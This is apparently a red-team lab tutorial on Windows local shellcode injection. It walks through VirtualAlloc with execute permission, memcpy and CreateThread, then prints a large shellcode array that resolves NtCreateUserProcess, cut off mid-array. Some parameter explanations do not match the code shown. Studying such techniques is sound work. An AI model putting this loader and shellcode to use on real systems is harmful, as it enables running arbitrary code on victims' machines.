

# Classic Code Injection Local Process

## Overview
In this lab, we cover a classic technique known as shellcode injection. Shellcode injection involves embedding a small, custom set of instructions (shellcode) directly into a process's memory space, allowing the attacker to execute arbitrary code. This technique uses Windows API calls to allocate memory in local Process, write the shellcode to the allocated memory, and then execute it.

## Steps Involved in the Technique
1. `Memory Allocation:` The process allocates memory within its own address space to store the shellcode.
2. `Writing Shellcode to Memory:` The shellcode is written to the newly allocated memory region.
3. `Executing the Shellcode:` A new thread is created to execute the shellcode.

## Walkthrough
The code allocates memory in the current process's address space where the shellcode can be placed and later executed. The `VirtualAlloc` function from the Windows API is commonly used for this purpose.
```cpp
// Allocate a memory buffer for payload with permission RWX
my_sc_mem = VirtualAlloc(0, sc_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
* `VirtualAlloc Function:` Allocates a region of pages in the virtual address space of the calling process.
* `0:` The desired starting address of the allocated region. By specifying 0, the function lets the system determine the location of the allocated memory.
* `sizeof sc:` The size of the memory to be allocated, which is the size of the shellcode array (sc).
* `MEM_COMMIT:` The memory allocation type, indicating that physical storage in the paging file is allocated.
* `PAGE_EXECUTE_READWRITE:` The protection level of the allocated memory, allowing the memory to be read, written, and executed.

Once the memory is allocated, the shellcode is copied into this memory region. This is done using the memcpy function, which copies the shellcode bytes to the allocated memory region.
```cpp
// copy payload to allocated buffer using memcpy(), you can also use RtlMoveMemory()
memcpy(my_sc_mem, sc, sc_len);
```
* `memcpy Function:` Copies a specified number of bytes from a source to a destination.
* `exec:` The destination address where the shellcode will be copied. This is the memory allocated by VirtualAlloc.
* `sc:` The source shellcode that needs to be injected.
* `sizeof sc:` The size of the shellcode in bytes to copy.

To execute the shellcode, the code creates a new thread that starts execution at the shellcode's address using CreateThread. The newly created thread runs the shellcode in the same process's address space.
```cpp
 // run shellcode
hthread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)my_sc_mem, 0, 0, 0);
```
* `CreateThread Function:` Creates a new thread to execute within the virtual address space of the calling process.
* `0:` Security attributes (if NULL, the handle cannot be inherited).
* `0:` The initial stack size of the thread. If zero, the stack size specified in the executable is used.
* `(LPTHREAD_START_ROUTINE)exec:` A pointer to the application-defined function to be executed by the thread. Here, the address of the shellcode (exec) is cast to the appropriate function pointer type.
* `0:` The argument to be passed to the thread function. Since shellcode does not expect any arguments, it is set to 0.
* `0:` Creation flags. If 0, the thread runs immediately after creation.
* `0:` A pointer to a variable that receives the thread identifier. If NULL, the identifier is not returned.

Finally, the code waits for the thread to complete using WaitForSingleObject, ensuring that the injected shellcode has finished execution before proceeding or exiting.
```cpp
if (hthread != NULL) {
		WaitForSingleObject(hthread, 500);
		CloseHandle(hthread);
		return 0;
	}
```
* `WaitForSingleObject Function:` Waits until the specified object is in the signaled state or the time-out interval elapses.
* `th:` Handle to the thread.
* `-1:` The time-out interval in milliseconds. -1 specifies an infinite time-out period, meaning it waits indefinitely until the thread has finished executing.

## Full Code
```cpp
// Shellcode: Hello from offensive Panda
unsigned char sc[] = { 0x40, 0x55, 0x57, 0x48, 0x81, 0xEC, 0xB8, 0x03,
	0x00, 0x00, 0x48, 0x8D, 0x6C, 0x24, 0x60, 0x65, 0x48, 0x8B, 0x04, 0x25,
	0x60, 0x00, 0x00, 0x00, 0x48, 0x89, 0x45, 0x00, 0x48, 0x8B, 0x45, 0x00,
	0x48, 0x8B, 0x40, 0x18, 0x48, 0x89, 0x45, 0x08, 0x48, 0x8B, 0x45, 0x08,
	0xC6, 0x40, 0x48, 0x00, 0x48, 0x8B, 0x45, 0x00, 0x48, 0x8B, 0x40, 0x18,
	0x48, 0x83, 0xC0, 0x20, 0x48, 0x89, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x89, 0x85,
	0x38, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6B, 0x00, 0x65, 0x00, 0x72, 0x00,
	0x6E, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x00, 0x6C, 0x00,
	0x33, 0x00, 0x32, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x2E, 0x00,
	0x64, 0x00, 0x6C, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7,
	0x45, 0x50, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x50, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85,
	0x58, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x60, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38,
	0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x60, 0x01, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x64,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x6C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0,
	0x02, 0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40,
	0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x85, 0x68, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D,
	0x6C, 0x01, 0x00, 0x00, 0x3B, 0xC1, 0x0F, 0x84, 0xB5, 0xFE, 0xFF, 0xFF,
	0x83, 0xBD, 0x60, 0x01, 0x00, 0x00, 0x00, 0x0F, 0x84, 0x2E, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x02,
	0x48, 0x89, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x48, 0x83, 0xE8, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88,
	0x85, 0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x68,
	0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01, 0x00, 0x00,
	0x83, 0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F,
	0xB6, 0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00,
	0x66, 0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x68,
	0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6,
	0x00, 0x88, 0x85, 0x64, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89,
	0x85, 0x6C, 0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x64, 0x01,
	0x00, 0x00, 0x83, 0xC0, 0x20, 0x88, 0x85, 0x65, 0x01, 0x00, 0x00, 0xEB,
	0x0D, 0x0F, 0xB6, 0x85, 0x64, 0x01, 0x00, 0x00, 0x88, 0x85, 0x65, 0x01,
	0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85, 0x65, 0x01, 0x00, 0x00, 0x66, 0x89,
	0x85, 0x6C, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x85, 0x68, 0x01, 0x00, 0x00,
	0x0F, 0xB7, 0x8D, 0x6C, 0x01, 0x00, 0x00, 0x2B, 0xC1, 0x89, 0x85, 0x60,
	0x01, 0x00, 0x00, 0x83, 0xBD, 0x60, 0x01, 0x00, 0x00, 0x00, 0x75, 0x10,
	0x48, 0x8B, 0x85, 0x58, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0x50, 0x01,
	0x00, 0x00, 0xEB, 0x25, 0x48, 0x8B, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x00, 0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x30, 0x01, 0x00, 0x00, 0x48, 0x39, 0x85, 0x38, 0x01, 0x00, 0x00, 0x0F,
	0x85, 0xF9, 0xFC, 0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x50, 0x01, 0x00, 0x00,
	0x48, 0x89, 0x85, 0x70, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E, 0x00, 0x74,
	0x00, 0x64, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x6C,
	0x00, 0x2E, 0x00, 0x64, 0x00, 0x6C, 0x00, 0x48, 0x89, 0x45, 0x40, 0x48,
	0xC7, 0x45, 0x48, 0x6C, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x45, 0x50, 0x00,
	0x00, 0x00, 0x00, 0x48, 0xC7, 0x85, 0x78, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00,
	0x48, 0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x38, 0x01,
	0x00, 0x00, 0x48, 0x83, 0xE8, 0x10, 0x48, 0x89, 0x85, 0x80, 0x01, 0x00,
	0x00, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x80, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40, 0x60, 0x48, 0x89,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8D, 0x45, 0x38, 0x48, 0x89, 0x85,
	0x40, 0x01, 0x00, 0x00, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x01, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x85, 0xC0, 0x75, 0x0F, 0xC7, 0x85, 0x88, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0xE9, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D, 0xFF, 0x00,
	0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00, 0xEB, 0x46, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C, 0x1E, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F, 0x12, 0x0F,
	0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20, 0x88, 0x85, 0x8D,
	0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C, 0x01, 0x00, 0x00,
	0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85, 0x8D, 0x01,
	0x00, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x3D,
	0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00,
	0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01, 0x00, 0x00, 0xEB,
	0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41, 0x7C,
	0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A, 0x7F,
	0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20, 0x88,
	0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C, 0x01,
	0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE, 0x85,
	0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xC0, 0x02, 0x48, 0x89,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00,
	0x48, 0x83, 0xC0, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x85, 0x90, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D, 0x94, 0x01, 0x00,
	0x00, 0x3B, 0xC1, 0x0F, 0x84, 0xB5, 0xFE, 0xFF, 0xFF, 0x83, 0xBD, 0x88,
	0x01, 0x00, 0x00, 0x00, 0x0F, 0x84, 0x2E, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x48, 0x83, 0xE8, 0x02, 0x48, 0x89, 0x85,
	0x48, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x48,
	0x83, 0xE8, 0x02, 0x48, 0x89, 0x85, 0x40, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85, 0x8C, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x85, 0x48, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00,
	0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85, 0x48, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00,
	0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x41,
	0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xF8, 0x5A,
	0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83, 0xC0, 0x20,
	0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6, 0x85, 0x8C,
	0x01, 0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x0F, 0xBE,
	0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x90, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F, 0xB6, 0x00, 0x88, 0x85,
	0x8C, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x40, 0x01, 0x00, 0x00, 0x0F,
	0xB7, 0x00, 0x3D, 0xFF, 0x00, 0x00, 0x00, 0x7E, 0x13, 0x48, 0x8B, 0x85,
	0x40, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01,
	0x00, 0x00, 0xEB, 0x46, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x41, 0x7C, 0x1E, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xF8, 0x5A, 0x7F, 0x12, 0x0F, 0xBE, 0x85, 0x8C, 0x01, 0x00, 0x00, 0x83,
	0xC0, 0x20, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0xEB, 0x0D, 0x0F, 0xB6,
	0x85, 0x8C, 0x01, 0x00, 0x00, 0x88, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66,
	0x0F, 0xBE, 0x85, 0x8D, 0x01, 0x00, 0x00, 0x66, 0x89, 0x85, 0x94, 0x01,
	0x00, 0x00, 0x0F, 0xB7, 0x85, 0x90, 0x01, 0x00, 0x00, 0x0F, 0xB7, 0x8D,
	0x94, 0x01, 0x00, 0x00, 0x2B, 0xC1, 0x89, 0x85, 0x88, 0x01, 0x00, 0x00,
	0x83, 0xBD, 0x88, 0x01, 0x00, 0x00, 0x00, 0x75, 0x10, 0x48, 0x8B, 0x85,
	0x80, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0x78, 0x01, 0x00, 0x00, 0xEB,
	0x25, 0x48, 0x8B, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48,
	0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00,
	0x00, 0x48, 0x39, 0x85, 0x38, 0x01, 0x00, 0x00, 0x0F, 0x85, 0xF9, 0xFC,
	0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x50, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x30, 0x48, 0x89, 0x85, 0x98, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x98,
	0x01, 0x00, 0x00, 0x48, 0x63, 0x40, 0x3C, 0x48, 0x8B, 0x8D, 0x98, 0x01,
	0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xA0,
	0x01, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x01, 0x00, 0x00, 0x8B, 0x84, 0x01, 0x88, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8,
	0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xA8, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0xA8, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x20, 0x48, 0x8B, 0x8D, 0x98,
	0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85,
	0xB0, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x47, 0x65, 0x74, 0x50, 0x72, 0x6F,
	0x63, 0x41, 0x48, 0x89, 0x45, 0x10, 0xC7, 0x85, 0xB8, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x48, 0x63, 0x85, 0xB8, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x8D, 0xB0, 0x01, 0x00, 0x00, 0x48, 0x63, 0x04, 0x81, 0x48, 0x8B,
	0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x55, 0x10, 0x48, 0x39, 0x14,
	0x01, 0x74, 0x10, 0x8B, 0x85, 0xB8, 0x01, 0x00, 0x00, 0xFF, 0xC0, 0x89,
	0x85, 0xB8, 0x01, 0x00, 0x00, 0xEB, 0xCD, 0x48, 0x8B, 0x85, 0xA8, 0x01,
	0x00, 0x00, 0x8B, 0x40, 0x24, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00,
	0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xC0, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA8, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x1C, 0x48,
	0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1,
	0x48, 0x89, 0x85, 0xC8, 0x01, 0x00, 0x00, 0x48, 0x63, 0x85, 0xB8, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x8D, 0xC0, 0x01, 0x00, 0x00, 0x48, 0x0F, 0xBF,
	0x04, 0x41, 0x48, 0x8B, 0x8D, 0xC8, 0x01, 0x00, 0x00, 0x48, 0x63, 0x04,
	0x81, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48,
	0x8B, 0xC1, 0x48, 0x89, 0x85, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x98, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xD8, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x78, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xE0, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xE0, 0x01, 0x00, 0x00, 0xC7, 0x80, 0x14, 0x01,
	0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x78, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x40, 0x30, 0x48, 0x89, 0x85, 0xE8, 0x01, 0x00, 0x00,
	0x48, 0xB8, 0x4C, 0x6F, 0x61, 0x64, 0x4C, 0x69, 0x62, 0x72, 0x48, 0x89,
	0x45, 0x10, 0x48, 0xC7, 0x45, 0x18, 0x61, 0x72, 0x79, 0x41, 0x48, 0x8D,
	0x55, 0x10, 0x48, 0x8B, 0x8D, 0xD8, 0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0,
	0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xF0, 0x01, 0x00, 0x00, 0x48, 0xB8,
	0x52, 0x74, 0x6C, 0x41, 0x6C, 0x6C, 0x6F, 0x63, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x61, 0x74, 0x65, 0x48, 0x65, 0x61, 0x70, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xF8, 0x01,
	0x00, 0x00, 0x48, 0xB8, 0x52, 0x74, 0x6C, 0x43, 0x72, 0x65, 0x61, 0x74,
	0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x50, 0x72, 0x6F, 0x63, 0x65,
	0x73, 0x73, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x50, 0x61, 0x72, 0x61,
	0x6D, 0x65, 0x74, 0x65, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7, 0x45, 0x50,
	0x72, 0x73, 0x45, 0x78, 0x48, 0x8D, 0x55, 0x38, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x00, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x4E, 0x74, 0x43, 0x72, 0x65, 0x61,
	0x74, 0x65, 0x48, 0x89, 0x45, 0x20, 0x48, 0xB8, 0x55, 0x73, 0x65, 0x72,
	0x50, 0x72, 0x6F, 0x63, 0x48, 0x89, 0x45, 0x28, 0x48, 0xC7, 0x45, 0x30,
	0x65, 0x73, 0x73, 0x00, 0x48, 0x8D, 0x55, 0x20, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x08, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x52, 0x74, 0x6C, 0x49, 0x6E, 0x69,
	0x74, 0x55, 0x48, 0x89, 0x45, 0x20, 0x48, 0xB8, 0x6E, 0x69, 0x63, 0x6F,
	0x64, 0x65, 0x53, 0x74, 0x48, 0x89, 0x45, 0x28, 0x48, 0xC7, 0x45, 0x30,
	0x72, 0x69, 0x6E, 0x67, 0x48, 0x8D, 0x55, 0x20, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x5C, 0x00, 0x3F, 0x00, 0x3F, 0x00,
